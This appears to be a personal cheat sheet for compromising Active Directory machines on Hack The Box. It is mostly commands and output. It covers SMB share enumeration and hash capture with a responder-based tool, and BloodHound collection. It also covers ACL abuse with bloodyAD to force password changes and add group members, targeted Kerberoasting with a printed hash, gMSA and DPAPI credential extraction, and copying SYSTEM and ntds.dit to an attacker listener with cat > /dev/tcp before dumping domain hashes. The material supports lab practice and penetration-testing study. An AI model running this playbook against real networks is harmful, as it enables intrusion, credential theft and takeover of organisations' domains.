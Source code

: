 I made this to work 10x faster on  [Active Directory](../../3%20-%20Tags/Hacking%20Concepts/Active%20Directory.md) boxes.
## Interesting ports from scan

```bash
53: DNS Most of the time not the way in, maybe enum   
88: Kerberos - Maybe Kerbrute but not much to go into
135/139/445: 'SMB'  Always interesting !!
3389: RDP  Always stands out, worth checking
```

Add domain name from nmap to `/etc/hosts`
## Ticket Requests

If gives you password but don't work:
```bash
└─$ impacket-getTGT machine.htb/'user,name':'passwd'
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in user.name.ccache

$ export KRB5CCNAME=/home/mdn0x/HTB/Machines/Machine/user/tickets/user.name.ccache   # IMPORTANT

$ nxc ldap machine.htb -u user.name -p passwd -k
LDAP        machine.htb      389    DC               [*] None (name:DC) (domain:machine.htb)
LDAP        machine.htb      389    DC               [+] machine.htb\user.name:passwd  
```

Now collect with [Bloodhound](../../3%20-%20Tags/Hacking%20Tools/Bloodhound.md).
## SMB (135,139,445) Enumeration

Can i find creds, write, steal with links?

Anonymous access? `netexec` or [SMBclient](../../3%20-%20Tags/Hacking%20Tools/SMBclient.md) or [SMBmap](../../3%20-%20Tags/Hacking%20Tools/SMBmap.md) 

```bash
smbclient -L \\\\domain.name\\

smbclient -L \\\\domain.name\\ -U user # If you have creds
```

OR
```bash
netexec smb dc.domain.htb -u user.name -p 'passwd' -k --shares --smb-timeout 500   # -k is for ticket usage

impacket-smbclient -k dc.machine.htb # To connect usage: shares, use share, ls, cd, get  
```

if list the shares then yes. Can connect?

```bash
smbclient \\\\domain.name\\Share # -U user -p passwd
```

If can write steal creds with `responder`

To steal use https://github.com/overgrowncarrot1/SMBKiller

```bash
python3 SMB_Killer.py -r Victim_IP -l MY_IP -d domain.name -i tun0 -a Share -U 'blankforanon' -p passwd?    
```

The tool starts an automatic responder instance to capture the hashes.

Crack with [JohnTheRipper](../../3%20-%20Tags/Hacking%20Tools/JohnTheRipper.md) or [Hashcat](../../3%20-%20Tags/Hacking%20Tools/Hashcat.md)

Verify user:

```bash
nxc smb domain.name -u 'user.name' -p 'passwd' --shares
```

## Bloodhound

Collect with [Bloodhound](../../3%20-%20Tags/Hacking%20Tools/Bloodhound.md):

```bash
 bloodhound-python -u 'user' -p 'passwd' -d domain.htb -ns 10.10.11.xx -c All --zip # -p or --hashes
```

Checks
```bash
'OUTBOUND OBJECT CONTROL'
'GROUPS' # like RemoteManager (WinRM)
```

Stands out
```bash
GenericAll: changepasswd and ownaccount # You can do everything with GA - BloodyAD
WriteSPN: can create a fake `SPN` of `user2` and get and hash to crack ## TargetedKerberoast tool
AddSelf: Add user to group # BloodyAD tool
ReadGMSAPassword: Reads any gMSA password blobs the user can access # GMSADumper tool
ForceChangePassword: modify directly # BloodyAD
WriteOwner: Change password # Impacket-owneredit then BloodyAD
```

## Evil-WinRM

```bash
evil-winrm -u 'user.name' -p 'passwd' -i dc.machine.htb # -H for hashes

evil-winrm -i dc.domain.htb -k userticket.ccache -r REALM.htb  # with ticket auth, add REALM in krb5 config if needed
```

## TargetedKerberoast


**WriteSPN**
```bash
┌──(.venv)─(mdn0x㉿mdn0xKali)
└─$ python3 targetedKerberoast.py -v -d domain.htb -u user -p 'passwd'
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[VERBOSE] SPN added successfully for (user2)
[+] Printing hash for (user2)
$krb5tgs$23$*user2$DOMAIN.HTB$machine.htb/User2*$0e83983aba480c3219b96987f20b128e$f66d93f0d55de1da3610267d601fe46a3eed827e3348ff764eca454ff3067429352018f988e71b0bca4636df36765f69664d77acdd4080b34d70ead2abbd2f52bb82054cd69f7f75475ee9beb93b06d036d6b24c8ace08ce04aac9cba49a6b8311fa66eb35ed80222cd23fc328ba489d2d9e83c47f9d0d1982b<SNIP>
[VERBOSE] SPN removed successfully for (user)
```

## BloodyAD

**AddSelf**
```bash
┌──(mdn0x㉿mdn0xKali)
└─$ bloodyAD --host '10.10.11.xx' -d 'domain.htb' -u user -p 'passwd' add groupMember GROUP user
[+] user added to GROUP
```


**ForceChangePassword - GenericAll**
```bash
└─$ bloodyAD --host '10.10.11.xx' -d 'domain.htb' -u 'user' -p 'passwd' set password USER2 'Hacker123!' # hash with -p also
[+] Password changed successfully!
```

## GMSADumper

**ReadGMSAPasswords**
```bash
└─$ python gMSADumper.py -u user -p passwd -d domain.htb 
```

This give you an usable hash like this`:4f46405647993c7d4e1dc1c25dd6ecf4` 
## Write Owner

First we use `impacket-owneredit` to make `USER` owner of `USER2`:

```bash
└─$ impacket-owneredit -action write -target 'user2' -new-owner 'user' 'machine.htb/user':'Hacker123!' -dc-ip 10.10.11.xx
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Current owner information below
[*] - SID: S-1-5-21-1392491010-1358638721-2126982587-512
[*] - sAMAccountName: Domain Admins
[*] - distinguishedName: CN=Domain Admins,CN=Users,DC=DCname,DC=htb
[*] OwnerSid modified successfully!
```

Now we can change his password with `bloodyAD`. First add `GenericAll`:

```bash
─$ bloodyAD --host 10.10.11.xx -d machine.htb -u 'user' -p 'Hacker123!' add genericAll user2 user
[+] user has now GenericAll on user2
```

Now change password.

## DPAPI

If you can find `dpapi` encrypted data and keys:

``` bash
- get /../../../AppData/Roaming/Microsoft/Protect/S-1-5-21-3927696377-1337352550-2781715495-1110/08949382-134f-4c63-b93c-ce52efc0aa88

- get /../../../AppData/Roaming/Microsoft/Credentials/772275FAD58525253490A9B0039791D3
```
### Cracking

crack the key:
```bash
impacket-dpapi masterkey -file 08949382-134f-4c63-b93c-ce52efc0aa88 -sid S-1-5-21-3927696377-1337352550-2781715495-1110 -password Password
```

Crack creds
```bash
impacket-dpapi credential -file 772275FAD58525253490A9B0039791D3 -key keyfrommasterkey
```

## Secrets Dump 

If you can find the `SYSTEM` and `NTDS` files grab them, possibly with a listener:

```bash
$ nc -lvnp 4444 > SYSTEM

cat SYSTEM  > /dev/tcp/10.10.xx.xx/4444 # on Target

$ nc -lvnp 4444 > ntds.dit

cat ntds.dit > /dev/tcp/10.10.xx.xx/4444 # on Target
```
### Cracking

Use `Impacket` function to crack the hashes:

```bash
$ impacket-secretsdump -ntds ntds.dit -system SYSTEM local 
```

Request a ticket then use [Evil-WinRM](../../3%20-%20Tags/Hacking%20Tools/Evil-WinRM.md) with `-k` flag.